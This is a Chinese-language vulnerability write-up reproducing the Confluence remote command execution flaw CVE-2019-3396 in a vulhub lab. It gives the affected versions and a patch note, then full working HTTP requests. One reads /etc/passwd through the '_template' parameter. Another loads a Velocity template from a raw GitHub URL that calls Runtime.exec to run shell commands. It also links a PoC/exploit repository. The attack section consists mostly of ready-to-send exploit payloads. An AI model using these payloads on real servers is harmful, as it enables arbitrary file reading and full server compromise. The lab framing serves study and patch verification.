




# Confluence 远程命令执行漏洞(CVE-2019-3396)

##### 1 漏洞概述

###### 漏洞编号

CVE-2019-3396

###### 漏洞名称

Confluence 远程命令执行漏洞(CVE-2019-3396)

###### 漏洞评级

高危

###### 漏洞描述

Confluence是一个专业的企业知识管理与协同软件，常用于构建企业wiki。它强大的编辑和站点管理特征能够帮助团队成员之间共享信息、文档协作、集体讨论，信息推送。利用该漏洞可以读取服务器上任意文件，进而可以包含恶意文件来执行代码。可能造成敏感信息泄露，服务器被控制等严重后果。

###### 漏洞利用条件和方式

无

###### 漏洞影响范围

6.6.12之前所有6.6.x版本

6.12.3之前所有6.12.x版本

6.13.13之前所有6.13.x版本

6.14.2之前所有6.14.x版本

###### 修复建议

 官方已修复该漏洞，请到官网下载无漏洞版本：<https://www.atlassian.com/> 


##### 2 环境准备

使用vulhub上的漏洞环境：

<https://github.com/vulhub/vulhub/tree/master/confluence/CVE-2019-3396>


##### 3 漏洞验证

读取/etc/passwd：

```
POST /rest/tinymce/1/macro/preview HTTP/1.1
Host: 192.168.183.128:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Referer: http://192.168.183.128:8090/pages/resumedraft.action?draftId=786457&draftShareId=056b55bc-fc4a-487b-b1e1-8f673f280c23&
Content-Type: application/json; charset=utf-8
Content-Length: 176

{"contentId":"786458","macro":{"name":"widget","body":"","params":{"url":"https://www.viddler.com/v/23464dc6","width":"1000","height":"1000","_template":"file:///etc/passwd"}}}
```




##### 4 漏洞利用

命令执行的模板如下：

```
#set($exp="exp")
#set($a=$exp.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec($command))
#set($input=$exp.getClass().forName("java.lang.Process").getMethod("getInputStream").invoke($a))
#set($sc = $exp.getClass().forName("java.util.Scanner"))
#set($constructor = $sc.getDeclaredConstructor($exp.getClass().forName("java.io.InputStream")))
#set($scan=$constructor.newInstance($input).useDelimiter("\\A"))
#if($scan.hasNext())
	$scan.next()
#end
```

将模板上传到github上，访问链接如下：

<https://raw.githubusercontent.com/qlxmy/vul/master/Confluence_CVE-2019-3396/cmd.rm>

执行ls命令完整的发包如下：

```
POST /rest/tinymce/1/macro/preview HTTP/1.1
Host: 192.168.183.128:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Referer: http://192.168.183.128:8090/pages/resumedraft.action?draftId=786457&draftShareId=056b55bc-fc4a-487b-b1e1-8f673f280c23&
Content-Type: application/json; charset=utf-8
Content-Length: 259

{"contentId":"786458","macro":{"name":"widget","body":"","params":{"url":"https://www.viddler.com/v/23464dc6","width":"1000","height":"1000","_template":"https://raw.githubusercontent.com/qlxmy/vul/master/Confluence_CVE-2019-3396/cmd.rm","command":"ls"}}}
```




##### 5 Poc/Exp

基于pocsuite模板的Poc/Exp链接：

<https://github.com/qlxmy/vul>

Poc验证：



Exp验证：




**参考链接：**

<https://www.freebuf.com/column/200320.html>

<https://github.com/vulhub/vulhub/tree/master/confluence/CVE-2019-3396>

[https://mntn0x.github.io/2019/04/18/CVE-2019-3396-Confluence-RCE%E5%A4%8D%E7%8E%B0/](https://mntn0x.github.io/2019/04/18/CVE-2019-3396-Confluence-RCE复现/)